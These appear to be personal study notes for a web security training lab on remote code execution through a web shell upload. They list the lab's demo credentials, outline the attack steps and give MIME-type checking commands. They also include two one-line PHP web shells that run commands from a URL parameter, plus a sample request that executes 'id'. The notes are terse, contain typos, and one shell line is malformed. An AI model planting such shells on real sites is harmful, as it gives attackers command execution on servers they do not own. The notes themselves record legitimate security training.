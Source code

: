 #Lab: Remote code execution via web shell upload

##End goal: upload a basic PHP web shell and get the contents of the file /home/carlos/secret

Credentials: wiener:peter

1. Learn site functionality

2. Upload avatar 

3. Detect endpoint 

4. Creat payload in php

5. Upload it and get content of secret file

xdg-mime built-in utility to detetct MIME-type

xdg-mime query filetype some_file.ext

file --mime-type some_file.ext

-------------------------------------------
Additional shell

<?php echo system($_GET['command']); ?>

<?php passthru($_GET['command'])>

HTTP-request
GET /example/exploit.php?command=id HTTP/1.1

Some new text lets